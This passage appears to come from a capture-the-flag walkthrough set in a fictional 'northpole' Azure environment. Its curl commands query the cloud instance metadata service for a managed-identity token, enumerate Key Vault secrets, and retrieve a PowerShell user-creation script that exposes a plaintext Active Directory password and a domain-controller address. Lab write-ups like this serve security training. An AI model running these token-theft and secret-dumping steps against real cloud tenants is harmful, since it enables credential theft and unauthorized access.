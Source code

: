 ```json
        "enableSoftDelete": true,
        "softDeleteRetentionInDays": 90,
        "vaultUri": "https://northpole-ssh-certs-kv.vault.azure.net/",
        "provisioningState": "Succeeded",
        "publicNetworkAccess": "Enabled"
      }
    }
  ],
  "nextLink": "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults?api-version=2022-07-01&$skiptoken=bm9ydGhwb2xlLXNzaC1jZXJ0cy1rdg=="
}
```

Not useful. Let's get a token for `vault.azure.net`.

```
curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://vault.azure.net' \
    -H Metadata:true > cfg3

curl -K cfg3 "https://northpole-ssh-certs-kv.vault.azure.net/secrets?api-version=7.4"

// no access
```

Let's try a different API call.

```json
curl -K cfg3 "https://northpole-it-kv.vault.azure.net/secrets?api-version=7.4"

{
  "value": [
    {
      "id": "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript",
      "attributes": {
        "enabled": true,
        "created": 1699564823,
        "updated": 1699564823,
        "recoveryLevel": "Recoverable+Purgeable",
        "recoverableDays": 90
      },
      "tags": {}
    }
  ],
  "nextLink": null
}
```

Cool, get the secret.

```json
curl -K cfg3 "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/?api-version=7.4" | jq

{
  "value": "Import-Module ActiveDirectory; $UserName = \"elfy\"; $UserDomain = \"northpole.local\"; $UserUPN = \"$UserName@$UserDomain\"; $Password = ConvertTo-SecureString \"J4`ufC49/J4766\" -AsPlainText -Force; $DCIP = \"10.0.0.53\"; New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname \"\" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru",
  "id": "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/ec4db66008024699b19df44f5272248d",
  "attributes": {
    "enabled": true,
    "created": 1699564823,
    "updated": 1699564823,
    "recoveryLevel": "Recoverable+Purgeable",
```